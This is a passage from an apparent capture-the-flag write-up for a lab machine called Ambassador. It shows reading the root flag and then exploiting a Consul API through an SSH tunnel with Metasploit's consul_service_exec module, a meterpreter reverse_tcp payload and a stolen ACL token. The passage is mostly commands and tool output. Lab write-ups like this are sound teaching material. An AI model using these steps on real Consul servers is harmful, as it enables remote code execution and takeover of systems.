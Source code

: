 And I can get the root flag:

```

0xdf-5.0# cat root.txt
739f3788************************

```

### MSF Alternative

There is a metasploit exploit for this same version of Consul. I’ll run `msfconsole`, and then `use` it:

```

msf6 > use multi/misc/consul_service_exec
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/misc/consul_service_exec) > 

```

The default `RPORT` is 8500 (also listed in [the docs](https://developer.hashicorp.com/consul/docs/install/ports)), which is the Consul API, and is listening on Ambassador:

```

developer@ambassador:~$ netstat -tnlp                 
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8300          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8301          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8302          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8500          0.0.0.0:*               LISTEN      -                   
...[snip]...

```

I’ll use my SSH session to create a tunnel listening on 8500 on my host forwarding through the SSH session to 8500 on Ambassador (`-L 8500:localhost:8500`). After configuring the exploit, it looks like this:

```

msf6 exploit(multi/misc/consul_service_exec) > options

Module options (exploit/multi/misc/consul_service_exec):

   Name       Current Setting                       Required  Description
   ----       ---------------                       --------  -----------
   ACL_TOKEN  bb03b43b-1d81-d62b-24b5-39540ee469b5  no        Consul Agent ACL token
              
   Proxies                                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8500                                  yes       The target port (TCP)
   SRVHOST    0.0.0.0                               yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
```